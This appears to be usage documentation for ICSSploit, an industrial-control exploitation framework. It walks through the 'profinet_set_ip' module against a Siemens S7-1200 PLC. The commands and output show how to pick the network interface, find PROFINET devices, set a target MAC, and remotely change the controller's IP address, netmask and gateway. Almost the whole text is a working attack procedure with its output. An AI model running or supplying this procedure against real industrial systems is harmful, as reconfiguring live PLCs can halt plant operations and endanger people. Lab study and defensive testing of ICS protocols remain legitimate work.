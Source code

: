 # Profinet set ip

# Use Profinet set ip module
    root@kali:~/Desktop/temp/icssploit# python icssploit.py
    
      _____ _____  _____ _____ _____  _      ____ _____ _______
     |_   _/ ____|/ ____/ ____|  __ \| |    / __ \_   _|__   __|
       | || |    | (___| (___ | |__) | |   | |  | || |    | |
       | || |     \___ \\___ \|  ___/| |   | |  | || |    | |
      _| || |____ ____) |___) | |    | |___| |__| || |_   | |
     |_____\_____|_____/_____/|_|    |______\____/_____|  |_|
    
    
                    ICS Exploitation Framework
    
    Note     : ICSSPOLIT is fork from routersploit at
               https://github.com/reverse-shell/routersploit
    Dev Team : wenzhe zhu(dark-lbp)
    Version  : 0.1.0
    
    Exploits: 5 Scanners: 3 Creds: 13
    
    ICS Exploits:
        PLC: 5          ICS Switch: 0
        Software: 0
    
    icssploit >
    icssploit > search profinet
    exploits/plcs/siemens/profinet_set_ip
    scanners/profinet_dcp_scan
    icssploit > exploits/plcs/siemens/profinet_set_ip
    icssploit (profinet device ip setup) >

    
# Set options
    icssploit (profinet device ip setup) > show options
    Target options:
    
       Name       Current settings      Description
       ----       ----------------      -----------
       target     40:6c:8f:ff:ff:ff     Target mac address, e.g. 40:6c:8f:ff:ff:ff
    
    
    Module options:
    
       Name               Current settings     Description
       ----               ----------------     -----------
       timeout            3                    Timeout for response
       target_ip          192.168.1.100        IP Address to set
       nic                eth0                 Interface Name e.g eth0, en0
       target_gateway     0.0.0.0              Gateway to set
       target_netmask     255.255.255.0        Network mask to set
       verbose            0                    Scapy verbose level, 0 to 2
    
    # Because profient dcp is a ethernet protocol, we need setup which interface to send and recive profinet dpc packet.
    # Use set nic eth0 to define which interface we want to send and recive profinet dpc packet.
    icssploit (profinet device ip setup) > set nic eth0
    [+] {'nic': 'eth0'}
    
    # Setup target mac address
    icssploit (profinet device ip setup) > set target 00:1c:06:1d:ff:ff
    [+] {'target': '00:1c:06:1d:ff:ff'}
    
    # If you didn't know target mac address this time, you can use scan command to discover profinet devices.
    icssploit (profinet device ip setup) > scan
    Device Name    Device Type    MAC Address        IP Address      Netmask        GateWay
    -------------  -------------  -----------------  --------------  -------------  ---------
    plcxb1d0ed     S7-1200        00:1c:06:1d:ff:ff  192.168.1.100  255.255.255.0  0.0.0.0
    
    # Setup ip address, netmask and gateway.
    icssploit (profinet device ip setup) > set target_ip 192.168.1.110
    [+] {'target_ip': '192.168.1.110'}
    icssploit (profinet device ip setup) > set target_netmask 255.255.255.0
    [+] {'target_netmask': '255.255.255.0'}
    # Set gateway to 0.0.0.0 mean target didn't have a gateway.
    icssploit (profinet device ip setup) > set target_gateway 0.0.0.0
    [+] {'target_gateway': '0.0.0.0'}

# Run module
    icssploit (profinet device ip setup) > run
    # run command will send a profinet dcp packet to check target current ip setting. 
    Device Name    Device Type    MAC Address        IP Address      Netmask        GateWay
    -------------  -------------  -----------------  --------------  -------------  ---------
    plcxb1d0ed     S7-1200        00:1c:06:1d:ff:ff  192.168.1.100  255.255.255.0  0.0.0.0
    
    
    [*] Please make sure target device info is correct.
    [*] Do you want setup target with
     ip address: 192.168.1.110
     network mask: 255.255.255.0
     gateway:0.0.0.0
    
    Y/y to confirm, other to cancel.
    :y
    Device Name    Device Type    MAC Address        IP Address      Netmask        GateWay
    -------------  -------------  -----------------  --------------  -------------  ---------
    plcxb1d0ed     S7-1200        00:1c:06:1d:ff:ff  192.168.1.110  255.255.255.0  0.0.0.0
    
    
    [+] Setup target ip succeed
    icssploit (profinet device ip setup) >
